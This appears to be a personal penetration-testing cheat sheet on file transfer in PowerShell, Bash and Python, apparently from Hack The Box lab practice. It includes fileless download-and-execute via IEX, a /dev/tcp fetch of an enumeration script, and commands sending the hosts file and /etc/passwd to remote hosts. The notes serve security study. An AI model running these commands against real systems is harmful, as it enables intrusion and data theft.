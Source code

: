 Navigation: [[Pentesting]]

---
This section will just have some very quick commands for reference. I'm not going to bother explaining how they work, nor does this cover every way to download/upload files.

HackTricks also has a useful list of [file exfiltration techniques](https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration)
# Table of Contents
1. PowerShell
2. Bash
3. Python
# PowerShell
Simple Base64 conversion:
```PowerShell
[IO.File]::WriteAllBytes("Output\File\Path", [Convert]::FromBase64String("B64String"))
```

Web File Downloads:
```PowerShell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

Fileless "Download":
```PowerShell
IEX (New-Object Net.WebClient).DownloadString("URI")
```

Here's a list of further [download commands](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

Web Upload:
```PowerShell
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

# Other option
curl.exe -f "files=@filepath" -X POST URI
```

# Bash
Base64 encode and decode:
```shell
cat file | base64 -w 0; echo

echo -n "B64" | base64 -d > out
```

`wget` and `curl` are two classic options as well. We can pipe curl into bash to run fileless too. 

Here's an interesting way to download files using bash 2.04 (and up) along with `/dev/tcp`:
```shell
exec 3<>/dev/tcp/server-ip/80

echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

cat <&3
```

SCP download and upload (and enabling + starting SSH):
```shell
sudo systemctl enable ssh
sudo systemctl start ssh

scp plaintext@192.168.49.128:/root/myroot.txt . 

scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

# Python
Python can be used to create a download server which is accessible through port 80:
```shell
python2.7 -m SimpleHTTPServer

python3 -m http.server
```

We can use python's [upload server](https://pypi.org/project/uploadserver/) to create a server to upload our files to.

---
Navigation: [[Pentesting]]